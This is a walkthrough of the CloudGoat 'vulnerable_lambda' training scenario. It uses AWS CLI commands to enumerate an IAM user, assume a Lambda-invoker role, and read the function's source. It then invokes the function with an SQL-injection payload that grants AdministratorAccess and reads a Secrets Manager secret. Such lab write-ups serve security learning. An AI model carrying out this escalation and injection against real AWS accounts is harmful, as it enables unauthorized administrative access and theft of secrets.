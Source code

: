 # Vulnerable Lambda 
In this scenario, a lambda function will be exploited to escalate privileges and search for secrets.

## Installation
```./cloudgoat.py create vulnerable_lambda

## Enumerate Biblo
1. Assume the biblo user's role
```aws configure --profile biblo
<Add access key, secret access key into the fields>
aws --profile biblo sts get-caller-identity -> Get user name
```
2. Get all the permissions associated with biblo
```
aws iam list-user-policies --user-name <user name> --profile biblo -> get policy name
aws iam get-user-policy --user-name <user name> --policy-name <policy name> --profile biblo

POLICYDOCUMENT  2012-10-17
STATEMENT       sts:AssumeRole  Allow   arn:aws:iam::<account id>:role/cg-lambda-invoker*          
STATEMENT       ['iam:Get*', 'iam:List*', 'iam:SimulateCustomPolicy', 'iam:SimulatePrincipalPolicy']       Allow   *  
```
We can see that the the policy allows us to list roles and assume the lambda role

3. To list roles
```
aws iam list-roles --profile biblo >> roles.txt
```
In roles.txt, we search for the role name that begins with cg-lambda-invoker
4. Identify the associated permissions with the role
```
aws iam list-role-policies --role-name <role name> --profile biblo
aws iam get-role-policy --role-name <role name> --policy-name <policy name> --profile biblo
POLICYDOCUMENT  2012-10-17
STATEMENT       Allow   ['<lambda function arn>', '<2 lambda function arn>']
ACTION  lambda:ListFunctionEventInvokeConfigs
ACTION  lambda:InvokeFunction
ACTION  lambda:ListTags
ACTION  lambda:GetFunction
ACTION  lambda:GetPolicy
STATEMENT       Allow   *
ACTION  lambda:ListFunctions
ACTION  iam:Get*
ACTION  iam:List*
ACTION  iam:SimulateCustomPolicy
ACTION  iam:SimulatePrincipalPolicy
```
We can see that we can get the source function and list functions.

4. Assume the lambda role
```
aws sts assume-role --role-arn <lambda role> --role-session-name biblo --profile biblo --output json
```
5. Add the profile
```
nano ~/.aws/credentials
```
Add the following lines
```
[lambda-biblo]
aws_access_key_id = <access key>
aws_secret_access_key = <secret access key>
aws_session_token = <session token>
```
## Lambda Source Code
1. List lambdas and identify target lambda 
```
aws lambda list-functions --profile lambda-biblo
...
<target lambda function>
"Description": "This function will apply a managed policy to the user of your choice, so long as the database says that it's okay..."
...
```
We then see that the exploit could be database
2. Examine the source code
```
aws lambda get-function --function-name <function name> --profile lambda-biblo
...
CODE    https://prod-04-20xxxx...
...
Paste the url into the browser to download the code. We can then see that the code validates our hypothesis above. We can add the policy administrator access to our user as it is in the approved list of policies.
3. Invoke the function with attaching the policies
```
aws --profile lambda-biblo lambda invoke --function-name <function name> --cli-binary-format raw-in-base64-out --payload '{"policy_names":["AdministratorAccess'"'"' --"], "user_name":"<biblo user name>"}' out.txt
cat out.txt -> Check for no errors
```
4. List Secrets
```
aws secretsmanager list-secrets --region us-east-1 --profile biblo --output json
... 
"Name": "vulnerable_lambda_xx... -> id of secret we want
...
```
5. Get the secret 
```
aws secretsmanager get-secret-value --region us-east-1 --secret-id <secret id> --profile biblo --output json
...
"SecretString": "cg-secret-846237-284529" -> Flag!
...

# References 
* Challenge: https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/vulnerable_lambda/README.md
